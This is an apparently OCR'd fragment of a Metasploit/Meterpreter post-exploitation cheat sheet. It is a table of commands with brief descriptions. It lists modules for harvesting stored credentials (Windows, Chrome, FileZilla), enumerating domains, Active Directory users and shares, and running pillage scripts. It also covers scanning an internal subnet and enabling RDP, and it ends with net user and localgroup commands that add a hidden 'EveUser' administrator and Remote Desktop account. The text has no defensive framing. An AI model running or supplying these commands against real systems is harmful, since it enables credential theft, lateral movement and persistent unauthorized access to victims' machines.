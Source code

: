 | load wmap                                                    |                                                              |
|                                                              |                                                              |
| Post exploitation                                            |                                                              |
| Information [help]                                           |                                                              |
| ifconfig, sysinfo, pwd,  getuid, ps, getpid, getprivs        |                                                              |
|                                                              |                                                              |
| search post/windows  post/linux; show post                   |                                                              |
| post/multi/recon/local_exploit_suggester                     |                                                              |
|                                                              |                                                              |
| run  post/linux/gather/enum_configs                          | Collects all the most vital configuration files on a system. |
| run  post/linux/gather/enum_system                           | Collects system information of a system.                     |
|                                                              |                                                              |
| run post/multi/gather/                                       | other gathering scripts                                      |
| run post/windows/gather/                                     | Lists all Meterpreter pillaging scripts.                     |
| run  post/windows/gather/enum_services                       | Obtain all running services on a Windows machine.            |
| run  post/windows/gather/enum_domains                        | Determine what domains target is in.                         |
| run  post/windows/gather/enum_ad_users                       | Enumerates accounts in active domain.                        |
| run  post/windows/gather/enum_shares                         | Lists all shared resources on system.                        |
| meterpreter > run scraper                                    | Runs pillage automation script.                              |
| meterpreter > run winenum                                    | Runs Windows pillage automation script.                      |
| meterpreter > run netenum                                    | Network Enumerator Meterpreter Script                        |
| run post/windows/gather/credentials                          | Searches for credentials on a system.                        |
| run post/gather/enum_chrome                                  | Searches for credentials stored in Google Chrome.            |
| run  post/windows/gather/enum_application                    | Lists installed software on system.                          |
| run post/multi/gather/filezilla_client_cred                  |                                                              |
|                                                              |                                                              |
| run arp_scanner –r  10.32.120.0/24                           | arp_scanner to identify devices within the same VLAN by IP and  MAC |
| use  post/windows/gather/arp_scanner                         | alternate arp_scanner to identify devices within the same VLAN  by IP and MAC |
| use  auxiliary/scanner/portscan/tcp                          | post module to do a port scan on a remote host               |
|                                                              |                                                              |
| run getgui -e                                                | Meterpreter post  payload to enable RDP                      |
|                                                              |                                                              |
| Add user                                                     |                                                              |
| net user EveUser EvePass /add                                |                                                              |
| net localgroup  "Administrators" EveUser /add                |                                                              |
| net localgroup "Remote  Desktop Users" EveUser /add etc etc  |                                                              |
|                                                              |                                                              |